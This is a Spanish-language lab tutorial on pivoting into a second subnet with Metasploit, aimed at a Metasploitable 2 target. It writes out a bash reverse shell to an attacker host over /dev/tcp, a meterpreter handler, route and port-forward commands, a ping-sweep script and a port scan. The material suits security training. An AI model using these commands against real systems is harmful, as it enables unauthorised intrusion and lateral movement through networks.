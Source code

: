 # Pivoting en Linux usando Metasploit

![Laboratorio de prueba](/Pivoting-Linux.png)

En primer lugar, debemos ganar acceso a la máquina Debian para luego hacer el pivoting al la máquina objetivo Metasploitable 2.

#### Reconocimiento

```bash
$ arp-scan -I eth0 --localnet --ignoredups
```

Identificamos la ip objetivo: 192.168.1.16

En este punto, realizaríamos el escaneo con _nmap_ para encontrar los distintos puertos abiertos, vulnerabilidades, etc. En este caso, como es un laboratorio para practicar pivoting, simplemente enviaremos una reverse shell desde la máquina Debian a nuestro Kali.

Iniciamos metasploit para ejecutar el exploit `multi/handler` y asi establecer una escucha que nos dara acceso a una sesión de meterpreter.

```bash
$ msfbd run
msf6> workspace -a PivotingLab
msf6> use exploit/multi/handler
msf6> set LHOST 192.168.1.3
msf6> set PAYLOAD linux/x64/meterpreter/reverse_tcp
msf6> run
```

Luego, en la máquina Debian enviamos la reverse shell

```bash
$ bash -i >& /dev/tcp/192.168.1.3/4444 0>&1
```

Enviamos a segundo plano la sesión de meterpreter y ejecutamos el siguiente comando para enrutar el tráfico, en este caso, de la subnet `10.0.2.8/24`:

```bash
meterpreter > ifconfig -> listas las interfaces de red
meterpreter > ^Z
msf6> route add 10.0.2.8 255.255.255.0 2
```

#### Host Discovery

Podemos usar el siguiente script para descubrir host activos dentro de la subred. Este script, deberíamos ejecutarlo en la máquina intermedia.

```bash
#!/bin/bash
# host-discovery.sh

for i in $(seq 1 254); do
        timeout 1 bash -c "ping -c 1 10.0.2.$i" &>/dev/null && echo "[+] Host 10.0.2.$i - ACTIVO" &
done; wait
```

Para descubrir los puertos abiertos en la máquina, podemos usar el modulo `auxiliary/scanner/portscan/tcp`.

```bash
msf6> use auxiliary/scanner/portscan/tcp
msf6> set RHOSTS 10.0.2.5
msf6> set PORTS 1-1000
```

Redirección de puertos / Port Forwarding

```bash
msf6> sessions 2
meterpreter> portfwd add -l 5000 -p 80 -r 10.0.2.5
```

Con el comando anterior, redireccionamos el puerto 80 de la máquina objetivo 10.0.2.5 a el puerto 5000 de nuestra máquina atacante.
